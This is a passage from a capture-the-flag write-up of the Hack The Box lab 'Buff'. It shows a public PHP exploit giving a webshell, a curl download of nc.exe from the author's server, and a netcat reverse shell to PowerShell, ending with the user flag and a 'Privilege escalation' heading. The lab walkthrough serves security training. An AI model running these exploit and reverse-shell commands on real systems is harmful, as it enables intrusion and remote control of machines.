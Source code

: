 ```shell
Shellcodes: No Results

┌──(sid㉿kali)-[~/…/flags/hackthebox/windows-machines/buff]
└─$ searchsploit -m php/webapps/48506.py
```

```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/windows-machines/buff]
└─$ python 48506.py http://10.10.10.198:8080/                                                                                    1 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
^^^^^^^^^^^^ /============BOKU======================/
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun

C:\xampp\htdocs\gym\upload>
```

Getting a stabler shell with netcat. Starting a python http server on my machine.
```shell
C:\xampp\htdocs\gym\upload> curl http://10.10.14.3:8000/nc.exe -o nc.exe
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.3 4444 -e powershell.exe
```
```shell
┌──(sid㉿kali)-[~/Documents/resources]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.198 - - [22/Nov/2020 10:06:46] "GET /nc.exe HTTP/1.1" 200 -
```
```shell
┌──(sid㉿kali)-[~/Documents/resources]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.198] 49681
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> cd c:\users\shaun\desktop
cd c:\users\shaun\desktop
PS C:\users\shaun\desktop> dir
dir


    Directory: C:\users\shaun\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       22/11/2020     03:35             34 user.txt  

PS C:\users\shaun\desktop> type user.txt
type user.txt
e2c2b4ce173ab870c791be072abcd4b6
PS C:\users\shaun\desktop>
```
## Privilege escalation
